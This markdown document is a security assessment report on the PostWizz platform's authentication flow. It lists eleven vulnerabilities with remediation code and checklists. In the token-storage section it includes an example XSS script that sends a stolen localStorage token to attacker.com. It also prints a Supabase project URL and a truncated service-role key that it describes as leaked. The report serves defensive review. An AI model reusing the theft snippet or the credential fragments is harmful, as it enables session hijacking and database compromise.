



# 🔒 SECURITY ASSESSMENT REPORT
## PostWizz Authentication Flow Security Analysis

**Assessment Date:** December 20, 2024  
**Assessed By:** Cybersecurity Specialist  
**Application:** PostWizz LinkedIn Content Management Platform  
**Scope:** Complete authentication flow from frontend to backend  

---

## 📋 EXECUTIVE SUMMARY

This security assessment reveals **CRITICAL vulnerabilities** in the PostWizz authentication system that pose immediate threats to user data, system integrity, and business operations. The most severe issue is the exposure of production credentials in version control, which grants attackers complete database access.

### Risk Level Distribution
- 🔴 **Critical Risk:** 2 vulnerabilities
- 🟠 **High Risk:** 3 vulnerabilities  
- 🟡 **Medium Risk:** 4 vulnerabilities
- 🟢 **Low Risk:** 2 vulnerabilities

### Immediate Action Required
**ALL PRODUCTION CREDENTIALS MUST BE ROTATED WITHIN 24 HOURS**

---

## 🚨 CRITICAL VULNERABILITIES

### 1. HARDCODED PRODUCTION CREDENTIALS IN VERSION CONTROL
**Risk Level:** 🔴 CRITICAL  
**CVSS Score:** 9.8 (Critical)  
**Impact:** Complete system compromise

#### Description
Real production credentials are exposed in `.env.example` files committed to version control, including:
- Supabase database URLs and service role keys
- JWT secrets
- API keys

#### Evidence
```bash
# Files containing exposed credentials:
- mcp-server/.env.example (lines 19-20)
- frontend-vite/.env.example (lines 5-6)
- SUPABASE_SETUP.md (lines 131-133)
```

#### Exposed Credentials
```
SUPABASE_URL=https://ukorcrxjrtxrqoalffki.supabase.co
SUPABASE_SERVICE_ROLE_KEY=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```

#### Attack Scenarios
1. **Direct Database Access:** Attackers can use service role key for full database control
2. **Data Exfiltration:** Complete user data theft including tokens and personal information
3. **Service Impersonation:** Create fake users, manipulate token balances
4. **Financial Impact:** Unauthorized API usage, resource consumption

#### Immediate Actions Required
- [ ] Rotate all Supabase credentials immediately
- [ ] Generate new JWT secrets
- [ ] Update all API keys
- [ ] Remove real credentials from all documentation
- [ ] Audit database for unauthorized access

### 2. INSECURE TOKEN STORAGE IN BROWSER
**Risk Level:** 🔴 CRITICAL  
**CVSS Score:** 8.5 (High)  
**Impact:** Session hijacking, account takeover

#### Description
MCP tokens are stored in browser localStorage without encryption, making them vulnerable to XSS attacks and client-side script access.

#### Evidence
```typescript
// frontend-vite/src/contexts/AuthContext.tsx:54-57
const [mcpToken, setMcpToken] = useState<string | null>(() => {
    // SECURITY: Get token from localStorage but will validate ownership later
    return localStorage.getItem('mcp_token');
});
```

#### Attack Scenarios
1. **XSS Token Theft:**
```javascript
// Malicious script can steal tokens
const stolenToken = localStorage.getItem('mcp_token');
fetch('https://attacker.com/steal', { 
    method: 'POST', 
    body: JSON.stringify({ token: stolenToken }) 
});
```

2. **Browser Extension Attacks:** Malicious extensions can access localStorage
3. **Physical Device Access:** Tokens persist even after browser closure

---

## 🟠 HIGH RISK VULNERABILITIES

### 3. OAUTH STATE PARAMETER MANIPULATION
**Risk Level:** 🟠 HIGH  
**CVSS Score:** 7.8 (High)  
**Impact:** User impersonation, account takeover

#### Description
The OAuth state parameter includes user IDs, allowing potential manipulation for user impersonation attacks.

#### Evidence
```typescript
// frontend-vite/src/contexts/AuthContext.tsx:563
const stateWithUserId = `${state}:${user.id}`;
```

#### Attack Scenarios
1. **State Manipulation:**
```javascript
// Attacker modifies state to impersonate victim
const maliciousState = "legitimate_state:victim_user_id";
```

2. **Token Association Attack:** Link attacker's LinkedIn to victim's account
3. **Cross-User Token Access:** Access tokens belonging to other users

### 4. WEAK JWT SECRET MANAGEMENT
**Risk Level:** 🟠 HIGH  
**CVSS Score:** 7.5 (High)  
**Impact:** Token forgery, authentication bypass

#### Description
No validation of JWT secret strength, no rotation mechanism, and potential exposure in logs.

#### Evidence
```typescript
// mcp-server/src/middleware/auth.ts:179-182
const jwtSecret = process.env.JWT_SECRET;
if (!jwtSecret) {
    throw new Error('JWT_SECRET not configured');
}
```

#### Vulnerabilities
- No minimum length requirements
- No complexity validation
- No rotation mechanism
- Potential logging exposure

### 5. SESSION FIXATION VULNERABILITY
**Risk Level:** 🟠 HIGH  
**CVSS Score:** 7.2 (High)  
**Impact:** Session hijacking, unauthorized access

#### Description
OAuth sessions stored in memory without proper expiration or invalidation mechanisms.

#### Evidence
```typescript
// mcp-server/src/auth/SessionsStore.ts:32-44
public registerSession = (
    id: string,
    session: Session,
    expirationInSeconds?: number
) => {
    this._sessions[id] = session;
    // Optional expiration only
};
```

---

## 🟡 MEDIUM RISK VULNERABILITIES

### 6. INCONSISTENT TOKEN VALIDATION
**Risk Level:** 🟡 MEDIUM  
**CVSS Score:** 6.8 (Medium)  
**Impact:** Authorization bypass, privilege escalation

#### Description
Different validation logic between Supabase JWT tokens and MCP tokens creates inconsistencies.

#### Evidence
- `verifyToken()` uses Supabase validation
- `verifyMcpToken()` uses custom JWT validation
- `optionalAuth()` has different error handling

### 7. VERBOSE ERROR MESSAGES
**Risk Level:** 🟡 MEDIUM  
**CVSS Score:** 5.5 (Medium)  
**Impact:** Information disclosure, attack surface mapping

#### Description
Detailed error messages reveal system architecture and internal workings.

#### Examples
```typescript
return res.status(401).json({
    error: 'Unauthorized',
    message: 'User not found in database. Please complete signup first.'
});
```

### 8. INSUFFICIENT RATE LIMITING
**Risk Level:** 🟡 MEDIUM  
**CVSS Score:** 5.3 (Medium)  
**Impact:** Brute force attacks, resource exhaustion

#### Description
Generic rate limiting (100 requests/15 minutes) without specific auth endpoint protection.

### 9. SENSITIVE DATA IN LOGS
**Risk Level:** 🟡 MEDIUM  
**CVSS Score:** 5.0 (Medium)  
**Impact:** Information leakage, compliance violations

#### Description
Tokens, user IDs, and session data logged in plaintext throughout the application.

---

## 🟢 LOW RISK VULNERABILITIES

### 10. MISSING SECURITY HEADERS
**Risk Level:** 🟢 LOW  
**CVSS Score:** 4.2 (Medium)  
**Impact:** XSS, clickjacking vulnerabilities

### 11. CORS CONFIGURATION REVIEW NEEDED
**Risk Level:** 🟢 LOW  
**CVSS Score:** 3.8 (Low)  
**Impact:** Potential cross-origin attacks

---

## 🛡️ COMPREHENSIVE REMEDIATION PLAN

### PHASE 1: IMMEDIATE ACTIONS (0-24 hours)
**Priority: CRITICAL - System at immediate risk**

#### 1.1 Credential Rotation (0-4 hours)
- [ ] **Rotate Supabase credentials**
  - Generate new project
  - Update service role keys
  - Migrate data if necessary
- [ ] **Generate new JWT secrets**
  - Minimum 256-bit entropy
  - Update all environments
- [ ] **Rotate all API keys**
  - LinkedIn OAuth credentials
  - Gemini AI keys
  - Any third-party services

#### 1.2 Remove Exposed Credentials (4-8 hours)
- [ ] **Clean version control history**
  - Remove credentials from all commits
  - Force push cleaned history
  - Notify team of history rewrite
- [ ] **Update documentation**
  - Replace real credentials with placeholders
  - Add security warnings
  - Update setup instructions

#### 1.3 Emergency Security Measures (8-24 hours)
- [ ] **Implement secure token storage**
  - Replace localStorage with httpOnly cookies
  - Add token encryption
  - Implement automatic expiration
- [ ] **Add security monitoring**
  - Database access logging
  - Failed authentication alerts
  - Unusual activity detection

### PHASE 2: SHORT-TERM FIXES (1-2 weeks)
**Priority: HIGH - Address major vulnerabilities**

#### 2.1 Authentication Security Hardening
- [ ] **Fix OAuth state vulnerability**
  - Remove user ID from state parameter
  - Implement proper CSRF protection
  - Add state validation
- [ ] **Strengthen JWT management**
  - Implement secret rotation
  - Add validation requirements
  - Secure secret storage
- [ ] **Improve session management**
  - Proper session invalidation
  - Timeout mechanisms
  - Concurrent session limits

#### 2.2 Authorization Controls
- [ ] **Unify token validation**
  - Consistent validation logic
  - Centralized auth middleware
  - Proper error handling
- [ ] **Implement RBAC**
  - Role-based permissions
  - Resource-level access control
  - Audit trail

#### 2.3 Security Monitoring & Logging
- [ ] **Secure logging implementation**
  - Remove sensitive data from logs
  - Structured logging format
  - Log retention policies
- [ ] **Security event monitoring**
  - Failed login attempts
  - Token usage anomalies
  - Privilege escalation attempts

### PHASE 3: LONG-TERM IMPROVEMENTS (1-2 months)
**Priority: MEDIUM - Comprehensive security posture**

#### 3.1 Advanced Authentication
- [ ] **OAuth 2.1 with PKCE**
  - Implement code challenge
  - Remove implicit flow
  - Add device authorization
- [ ] **Multi-factor authentication**
  - TOTP support
  - SMS backup
  - Recovery codes
- [ ] **Device fingerprinting**
  - Browser fingerprinting
  - Anomaly detection
  - Risk-based authentication

#### 3.2 Infrastructure Security
- [ ] **Web Application Firewall**
  - DDoS protection
  - SQL injection prevention
  - XSS filtering
- [ ] **Security headers**
  - Content Security Policy
  - HSTS implementation
  - X-Frame-Options
- [ ] **API security**
  - Request signing
  - Payload validation
  - Response filtering

#### 3.3 Compliance & Governance
- [ ] **Security testing program**
  - Automated vulnerability scanning
  - Regular penetration testing
  - Code security reviews
- [ ] **Compliance frameworks**
  - OWASP Top 10 compliance
  - GDPR data protection
  - SOC 2 readiness
- [ ] **Security training**
  - Developer security training
  - Secure coding practices
  - Incident response procedures

---

## 🔍 DETAILED TECHNICAL RECOMMENDATIONS

### Secure Token Storage Implementation
```typescript
// Replace localStorage with secure httpOnly cookies
const setSecureToken = (token: string) => {
    // Server-side cookie setting
    res.cookie('auth_token', token, {
        httpOnly: true,
        secure: true,
        sameSite: 'strict',
        maxAge: 3600000, // 1 hour
        signed: true
    });
};
```

### OAuth State Security Fix
```typescript
// Remove user ID from state, use session storage instead
const generateSecureState = () => {
    const state = crypto.randomBytes(32).toString('hex');
    const sessionData = {
        userId: user.id,
        timestamp: Date.now(),
        nonce: crypto.randomBytes(16).toString('hex')
    };

    // Store session server-side with state as key
    await storeOAuthSession(state, sessionData);
    return state;
};
```

### JWT Secret Management
```typescript
// Implement proper JWT secret validation
const validateJWTSecret = (secret: string): boolean => {
    return secret.length >= 32 &&
           /^[A-Za-z0-9+/=]+$/.test(secret) &&
           entropy(secret) > 4.0;
};

// Implement secret rotation
const rotateJWTSecret = async () => {
    const newSecret = crypto.randomBytes(64).toString('base64');
    await updateEnvironmentVariable('JWT_SECRET', newSecret);
    await invalidateAllTokens();
};
```

### Unified Authentication Middleware
```typescript
// Centralized auth validation
const unifiedAuthMiddleware = async (req: Request, res: Response, next: NextFunction) => {
    try {
        const token = extractToken(req);
        const validationResult = await validateToken(token);

        if (!validationResult.valid) {
            return sendSecureError(res, 401, 'Authentication failed');
        }

        req.user = validationResult.user;
        await logAuthEvent('success', req.user.id, req.ip);
        next();
    } catch (error) {
        await logAuthEvent('failure', null, req.ip, error);
        return sendSecureError(res, 500, 'Authentication error');
    }
};
```

---

## 📊 RISK ASSESSMENT MATRIX

| Vulnerability | Likelihood | Impact | Risk Score | Priority |
|---------------|------------|---------|------------|----------|
| Exposed Credentials | Very High | Critical | 9.8 | P0 |
| Insecure Token Storage | High | High | 8.5 | P0 |
| OAuth State Manipulation | Medium | High | 7.8 | P1 |
| Weak JWT Management | Medium | High | 7.5 | P1 |
| Session Fixation | Medium | High | 7.2 | P1 |
| Inconsistent Validation | Low | Medium | 6.8 | P2 |
| Verbose Errors | Medium | Low | 5.5 | P2 |
| Rate Limiting | Low | Medium | 5.3 | P2 |
| Sensitive Logging | Medium | Low | 5.0 | P2 |
| Missing Headers | Low | Low | 4.2 | P3 |
| CORS Configuration | Low | Low | 3.8 | P3 |

---

## 🎯 SUCCESS METRICS

### Security KPIs
- **Zero exposed credentials** in version control
- **100% token encryption** at rest and in transit
- **<1% false positive rate** for authentication
- **<100ms authentication latency** impact
- **Zero successful attacks** post-remediation

### Compliance Metrics
- **OWASP Top 10 compliance**: 100%
- **Security scan pass rate**: >95%
- **Penetration test findings**: <5 medium risk
- **Code review coverage**: 100% for auth code

---

## 📞 INCIDENT RESPONSE

### If Breach Suspected
1. **Immediate containment**
   - Rotate all credentials
   - Invalidate all sessions
   - Enable emergency monitoring
2. **Assessment**
   - Audit database access logs
   - Check for unauthorized changes
   - Identify affected users
3. **Communication**
   - Notify stakeholders
   - Prepare user communications
   - Document timeline

### Emergency Contacts
- **Security Team Lead**: [Contact Info]
- **Database Administrator**: [Contact Info]
- **DevOps Lead**: [Contact Info]

---

## 🔐 ATTACK VECTOR ANALYSIS

### 1. Credential Exposure Attack Chain


### 2. XSS Token Theft Attack Chain


### 3. OAuth State Manipulation Attack Chain


---

## 🛠️ SECURITY TESTING CHECKLIST

### Authentication Testing
- [ ] **Token validation bypass attempts**
- [ ] **Session fixation testing**
- [ ] **OAuth flow manipulation**
- [ ] **JWT token forgery attempts**
- [ ] **Credential stuffing attacks**

### Authorization Testing
- [ ] **Privilege escalation attempts**
- [ ] **Cross-user data access**
- [ ] **API endpoint authorization**
- [ ] **Resource-level permissions**
- [ ] **Role-based access control**

### Input Validation Testing
- [ ] **SQL injection attempts**
- [ ] **XSS payload injection**
- [ ] **Command injection testing**
- [ ] **Path traversal attempts**
- [ ] **File upload security**

### Infrastructure Testing
- [ ] **Rate limiting effectiveness**
- [ ] **CORS policy validation**
- [ ] **Security header presence**
- [ ] **SSL/TLS configuration**
- [ ] **Error handling security**

---

## 📋 COMPLIANCE MAPPING

### OWASP Top 10 2021 Mapping
| OWASP Risk | PostWizz Vulnerability | Status | Priority |
|------------|------------------------|---------|----------|
| A01 - Broken Access Control | OAuth State Manipulation | 🔴 Found | P1 |
| A02 - Cryptographic Failures | Insecure Token Storage | 🔴 Found | P0 |
| A03 - Injection | SQL Injection (Potential) | 🟡 Review | P2 |
| A04 - Insecure Design | Session Management | 🔴 Found | P1 |
| A05 - Security Misconfiguration | Exposed Credentials | 🔴 Found | P0 |
| A06 - Vulnerable Components | Dependencies | 🟡 Review | P2 |
| A07 - Identity/Auth Failures | Multiple Issues | 🔴 Found | P0 |
| A08 - Software Integrity | Code Signing | 🟡 Review | P3 |
| A09 - Logging/Monitoring | Sensitive Data Logs | 🔴 Found | P2 |
| A10 - Server-Side Request Forgery | SSRF (Potential) | 🟡 Review | P2 |

### GDPR Compliance Issues
- **Data Exposure**: Credentials in version control expose user data
- **Consent Management**: No clear consent tracking for data processing
- **Data Retention**: No defined retention policies for tokens/logs
- **Right to Erasure**: No mechanism for complete data deletion
- **Data Portability**: Limited user data export capabilities

---

## 📝 CONCLUSION

The PostWizz authentication system contains **critical security vulnerabilities** that require immediate attention. The exposure of production credentials poses an existential threat to the platform and must be addressed within 24 hours.

### Key Findings Summary
1. **Immediate Threat**: Production credentials exposed in version control
2. **High Risk**: Insecure token storage and OAuth vulnerabilities
3. **Systemic Issues**: Inconsistent security practices across the codebase
4. **Compliance Gaps**: Multiple OWASP Top 10 and GDPR violations

### Recommendations Priority
1. **P0 (Critical)**: Rotate all credentials, fix token storage
2. **P1 (High)**: Fix OAuth flows, strengthen JWT management
3. **P2 (Medium)**: Improve logging, error handling, validation
4. **P3 (Low)**: Add security headers, enhance monitoring

**Final Recommendation**: Treat this as a **P0 security incident** and begin immediate remediation. The current state of the authentication system poses unacceptable risks to user data and business operations.

---

**Document Version:** 1.0
**Last Updated:** December 20, 2024
**Next Review:** January 20, 2025
**Classification:** CONFIDENTIAL - Internal Security Use Only

**Prepared by:** Cybersecurity Assessment Team
**Approved by:** [Security Lead Name]
**Distribution:** Development Team, Security Team, Management
